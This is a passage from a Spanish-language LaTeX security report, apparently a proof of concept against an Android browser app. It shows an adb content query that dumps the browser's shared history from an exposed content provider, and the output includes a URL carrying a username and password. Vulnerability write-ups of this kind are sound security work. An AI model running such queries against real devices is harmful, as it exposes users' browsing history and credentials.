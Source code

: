 \documentclass[11pt, a4paper, twoside]{article}
\begin{document}
\vspace{-30pt}
\subsubsection{Prueba de Concepto}
A continuación se muestra un query al content provider \textbf{history\_provider}, realizado con el comando \texttt{content} del shell de Android. Antes de ello, se navegó a través de algunas páginas con usuarios distintos, Google y Facebook con el primer usuario, y Taringa con el segundo usuario.

\begin{verbatim}
$ adb shell content query --uri "content://ar.sadosky.browser.history_provider/history"
Row: 0 url_visited=about:blank
Row: 1 url_visited=http://www.google.com.ar/
Row: 2 url_visited=http://www.google.com.ar/intl/es-419/policies/privacy/?fg=1
Row: 3 url_visited=https://facebook.com/
Row: 4 url_visited=https://www.facebook.com/?_rdr
Row: 5 url_visited=https://m.facebook.com/?_rdr&refsrc=https%3A%2F%2Fwww.facebook.com%2F
Row: 6 url_visited=https://mail.google.com/mail/
Row: 7 url_visited=https://accounts.google.com/ServiceLogin?service=mail&passive=true
&continue=https://mail.google.com/mail/?ui%3Dmobile%26zyp%3Dl&scc=1&ltmpl=ecobx
&nui=5&btmpl=mobile&emr=1
Row: 8 url_visited=http://www.taringa.net/
Row: 9 url_visited=http://m.taringa.net/
Row: 10 url_visited=http://www.taringa.net/login.html?user=taringuero&pass=1234
Row: 11 url_visited=http://m.taringa.net/posts/hazlo-tu-mismo/18505791/
Te-enseno-a-hacer-una-mochila-3.html
\end{verbatim}

Como se puede apreciar, por las razones expuestas anteriormente, todo el historial de los usuarios puede ser obtenido muy fácilmente. No sólo es posible ver eso, sino también que el historial de todos los usuarios de la aplicación se encuentra guardado sin distinción del usuario que lo produjo, por lo que todos los usuarios comparten el mismo historial.

El hecho de que el historial sea accesible por cualquier aplicación, representa no solo una brecha a la privacidad del usuario, sino que también existe el peligro de robo de sesiones/credenciales de los sitios en que navega el usuario, suponiendo que alguno de estos datos sean enviados a través de peticiones GET\footnote{Lo cual en sí ya representa una vulnerabilidad}.

%
%
\clearpage
{}
\section{Vulnerabilidades de Red}
\end{document}
